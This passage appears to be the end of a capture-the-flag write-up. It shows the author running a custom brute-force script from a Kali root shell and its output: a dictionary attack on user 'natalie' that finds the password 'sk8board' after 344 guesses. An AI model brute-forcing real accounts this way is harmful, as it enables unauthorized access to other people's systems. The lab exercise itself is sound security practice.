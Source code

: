 Lets run it
```bash
──(root㉿kali)-[~/Desktop/capture]
└─# python3 myhydra.py
1 Invalid password 'football' for user 'natalie'
2 Invalid password 'kimberly' for user 'natalie'
3 Invalid password 'mookie' for user 'natalie'
4 Invalid password 'daniel' for user 'natalie'
...
342 Invalid password 'brooke' for user 'natalie'
343 Invalid password '147852369' for user 'natalie'
344 >>>>  Valid password 'sk8board' for user 'natalie' <<<<

```

Lets login and see whats next.

![[Pasted image 20230506224919.png]]

Oh, and thats it folks!

![[Pasted image 20230506230918.png]]
